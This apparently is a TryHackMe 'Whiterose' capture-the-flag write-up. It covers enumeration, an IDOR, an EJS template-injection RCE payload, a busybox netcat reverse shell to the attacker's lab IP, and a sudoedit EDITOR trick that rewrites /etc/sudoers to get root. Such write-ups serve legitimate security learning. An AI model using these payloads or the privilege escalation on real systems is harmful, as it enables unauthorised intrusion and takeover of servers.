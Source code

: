```yaml
---
layout: ../../../../layouts/Post.astro
title: Whiterose THM Writeup
description: This is a writeup of Whiterose, a TryHackMe room.
publishDate: Tuesday, February 25 2025
author: "s1lentMT"
image: "/assets/blog/whiterose/whiterose-thm.png"
alt: Image of TryHackMe's Whiterose room.
tags: ["Writeup"]
---
```


At the beginning, we are informed that the user **Olivia Cortez** with the password **olivi8** will be useful throughout the machine.

After an nmap scan, we can determine that ports **80** and **22** are open, meaning the **SSH** and **Nginx** services are active.

```shell
nmap -sC -sV -O --osscan-guess 10.10.170.109

Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-22 19:32 GMT
Nmap scan report for cyprusbank.thm (10.10.170.109)
Host is up (0.00035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:12:8D:60:9B:2F (Unknown)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 3.8 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 
210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), 
Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ )
```

The versions of these services are **OpenSSH 7.6p1 Ubuntu 4ubuntu0.7** and **nginx/1.14.0** respectively.

The operating system of the machine is **Linux**.

When accessing the web, we will see a maintenance message.

![Image of the web](/assets/blog/whiterose/img-1.png)

## Enumeration

### Directories

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://cyprusbank.thm/FUZZ -ic
```

With this search, nothing was found, so I proceed to enumerate VHOSTS.

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://cyprusbank.thm -H 'Host: FUZZ.cyprusbank.thm' -ic -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 57
 :: Filter           : Response words: 1
 :: Filter           : Response lines: 4
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
WWW                     [Status: 200, Size: 252, Words: 19, Lines: 9]
:: Progress: [4997/4997] :: Job [1/1] :: 13044 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

As we can see, **admin** stands out, so we will edit the **/etc/hosts** file to access it.

Once we access, there is an administration panel.

![Image of the administration panel](/assets/blog/whiterose/img-2.png)

If we try to use the credentials provided earlier in the room, we will gain access to the panel.

![Image of the inside of the administration panel](/assets/blog/whiterose/img-3.png)

The data we see in the panel is censored, so we won't be able to see Tyrell's phone number.

If we access the messages section, we will see a URL with an interesting parameter. If we change it, we can perform an **IDOR** and obtain the credentials of an administrator account.

With this, we can now obtain Tyrell's phone number.

If we access the settings section and intercept the request, we can play with the parameters and see that we can cause a **500 error** that will show an interesting trace:

```log
ReferenceError: /home/web/app/views/settings.ejs:14
    12|         <div class="alert alert-info mb-3"><%= message %></div>
    13|       <% } %>
 >> 14|       <% if (password != -1) { %>
    15|         <div class="alert alert-success mb-3">Password updated to '<%= password %>'</div>
    16|       <% } %>
    17|       <% if (typeof error != 'undefined') { %>

password is not defined
    at eval ("/home/web/app/views/settings.ejs":27:8)
    at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)
    at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)
    at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)
    at /home/web/app/routes/settings.js:27:7
    at processTicksAndRejections (node:internal/process/task_queues:96:5)
```

The **settings.ejs** file stands out. If we search for any type of exploit related to this, we can compromise the machine.

And luckily, there is a **CVE** that allows us to execute commands (RCE) on the machine.

With this payload, we can execute the command **"whoami"**:

```http
name=test&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');&password=test
```

Since we can execute this type of commands, we could obtain a reverse shell, which would allow us to execute commands directly on the machine without needing to interact through requests.

With the following payload, we can receive the connection on our listener:

```shell
nc -lvnp 4444
name=test&password=&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.10.150.123 4444 -e sh');s
```

Later, we will see that a connection is received in our netcat, and we can spawn a shell with Python or other methods:

```shell
root@ip-10-10-150-123:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.0 38318
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@cyprusbank:~/app$ 

web@cyprusbank:~/app$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)
```

If we continue investigating within the directories of our server, we will find the **user.txt** flag:

```shell
web@cyprusbank:~/app$ cd ..
cd ..
web@cyprusbank:~$ ls
ls
app  user.txt
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{XXXXXXXXXXXXX}
web@cyprusbank:~$
```

To see which commands our user can execute, we will run **sudo -l** and see that we have permissions to execute **sudoedit**:

```shell
web@cyprusbank:~/app$ sudo -l     
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

From here, we need to see how to exploit the machine and take advantage of this.

We see that there is an exploit we can perform that would allow us to gain root privileges:

```shell
export EDITOR="vim -- /etc/sudoers"
```

This will allow us to open **vim** with the **/etc/sudoers** file when we open the **/etc/nginx/sites-available/admin.cyprusbank.thm** file.

```shell
web ALL=(ALL:ALL) ALL
```

And now we can run **sudo su** without needing a password :).

Now, we just need to find the **root.txt** file, view its contents, and we have completed the room.

This flag will be found in **/root**, and with a **cat**, we will have our flag.